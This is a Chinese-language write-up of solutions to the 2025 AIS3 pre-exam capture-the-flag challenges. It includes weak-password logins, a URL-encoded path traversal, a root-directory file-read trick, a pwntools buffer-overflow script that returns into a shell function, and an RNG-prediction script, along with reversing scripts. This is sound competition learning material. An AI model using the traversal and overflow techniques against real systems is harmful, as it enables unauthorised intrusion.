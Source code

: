 ```yaml
---
title: "2025 ais3 pre-exam write up"
date: 2025-07-25
draft: false
description: "a description"
tags: ["ctf", "writeups"]
---
```

# 2025 ais3 pre-exam write-up

result:
![alt text](2025-05-26_170023.png)
這次解的題目最後全變 100 分 QAQ

題目都忘記截圖只能看解法猜題目 ╯︿╰ 

## login screen 1

於 login page 嘗試弱密碼 admin/admin 成功登入
觀察 dockr-compose.yml
![image](./login_screen-1.png)
發現 db 可以訪問
下載 db 找到 2fa code
![image](./login_screen-2.png)
成功登入取得 flag

## tomorin db

直接進入 /flag 會被 redirect

將`/` URL encode 成功 bypass，進入
`chals1.ais3.org:30000/..%2fflag`
取得 flag

## Welcome to the World of Ave Mujica

- 動態分析發現可以 burrfer overflow
- 丟進 ida 發現 0x401256 有一個 shell

![image](./avemujica-1.png)

- 使用 cyclic 計算 offset
將 return address 覆蓋為 0x4012D6 取得 shell

``` python
import pwn

host = "chals1.ais3.org"
port = 60122
conn = pwn.remote(host, port)
# conn = pwn.gdb.debug("./chal", env={"LD_PRELOAD": "./libc.so.6"})

conn.recvuntil(b'?')
conn.sendline(b'yes')
conn.recvuntil(b': ')
conn.sendline(b'-1')
conn.recvuntil(b': ')

g = pwn.cyclic_gen()
conn.sendline(g.get(168) + pwn.p64(0x4012D6))
```

## Raman CTF

掃描發票上 qrcode 將發票號碼填入發票 app 取得發票資訊，再使用 google map 搜尋地址取得 flag

![image](./raman-1.png)


## AIS3 Tiny Server - Web / Misc

題目提到 root directory 嘗試進入 chals1.ais3.org:20616//
成功 LFI 訪問根目錄取得 flag
![image](./tiny-1.png)
取得flag

## Welcome

沒辦法直接複製，直接打，懶得找其他方法。
![image](./welcome.png)

## Stream

可以暴力遍歷 a 檢查 b 是否為完全平方數得到每輪使用的隨機數，因為 getrandbits() 使用 mt19937 ，只要取得 634*32bits 的已知隨機數可以預測後續生成之隨機數。

```python!
from random import getrandbits
from hashlib import sha512
import gmpy2
from pyrandcracker import RandCracker


def rev(a: bytes, b: int):
    return int.from_bytes(a) ^ b


craker = RandCracker()

randbyte = []

for i in l:
    for j in range(256):
        r = rev(sha512(j.to_bytes()).digest(), i)
        if gmpy2.is_square(r):
            craker.submit(gmpy2.isqrt(r), 256)
craker.check()
        
print((l[80]^craker.rnd.getrandbits(256)**2).to_bytes(32, 'big'))
```
執行腳本取得 flag
![image](./stream.png)

## AIS3 Tiny Server - Reverse

丟進 IDA 可以看到 `sub_1E20()` 這個 function 會檢查 flag

![image](./tinyserver_reverse-1.png)
![image](./tinyserver_reverse-2.png)

撰寫腳本還原 flag
```python

import struct

def extract_flag():
    encrypted_data = [
        1480073267, 
        1197221906, 
        254628393,  
        920154,     
        1343445007, 
        874076697,  
        1127428440, 
        1510228243, 
        743978009,  
        54940467,   
        1246382110  
    ]
    

    encrypted_bytes = []
    for num in encrypted_data:
        bytes_from_int = struct.pack('<I', num)
        encrypted_bytes.extend(bytes_from_int)
    
    # The XOR key from v7
    key = b"rikki_l0v3"
    

    
    encrypted_bytes.append(20) 
    
    decrypted = bytearray(45)  
    
    v2 = 51 
    v3 = 114
    
    for i in range(45):
        decrypted[i] = v2 ^ v3
        
        if i + 1 < 45:
            v2 = encrypted_bytes[i + 1]
            v3 = key[(i + 1) % len(key)] 

    flag = decrypted.decode('ascii', errors='ignore').rstrip('\x00')
    return flag

if __name__ == "__main__":
    flag = extract_flag()
    print(f"flag: {flag}")
```
取得flag
![image](./tinyserver_reverse-3.png)

## A simple snake game

丟 IDA 逆向找到有一個檢查分數和關卡的地方
![image](./snake-1.png)
patch 成 jg 跳過檢查
![image](./snake-2.png)
進入遊戲取得 flag
![image](./snake-3.png)

## web flag checker

從 source 可以看到 wasm
有一個函式叫 flag checker
![image](./flag_checker-1.png)
丟給 claude 幫忙 reverse 並撰寫腳本

```python!
import struct

def ror64(value, shift):
    """64-bit right rotation (inverse of left rotation)"""
    value &= 0xFFFFFFFFFFFFFFFF
    shift &= 63
    return ((value >> shift) | (value << (64 - shift))) & 0xFFFFFFFFFFFFFFFF



def solve_flag_properly():
    expected_encrypted = [
        7577352992956835434,    # Chunk 0: "AIS3{W4S" with ROR 45
        7148661717033493303,    # Chunk 1: "M_R3v3rs" with ROR 28  
        (-7081446828746089091) & 0xFFFFFFFFFFFFFFFF,  # Chunk 2: needs brute force
        (-7479441386887439825) & 0xFFFFFFFFFFFFFFFF,  # Chunk 3: needs brute force
        8046961146294847270     # Chunk 4: "39229dd}" with ROR 61
    ]
    for i in range (5):
        print(f"\n--- Finding Chunk {i} ---")
        encrypted2 = expected_encrypted[i]
        best_chunk2_candidates = []

        for key in range(64):
            decrypted = ror64(encrypted2, key)
            try:
                bytes_data = struct.pack('<Q', decrypted)
                text = bytes_data.decode('ascii', errors='replace')
                printable_count = sum(1 for c in text if c.isprintable() and c != '�')

                if printable_count >= 6:
                    best_chunk2_candidates.append((key, bytes_data, text, printable_count))
            except:
                continue
        for key, data, text, score in best_chunk2_candidates[:10]:
            print(f"  Key {key:2d}: {text}")

    
  
if __name__ == "__main__":

    solve_flag_properly()
    

```

![image](./flag_checker-2.png)

組合 flag 得到 `AIS3{W4SM_R3v3rsing_w17h_g0_4pp_39229dd}`

---

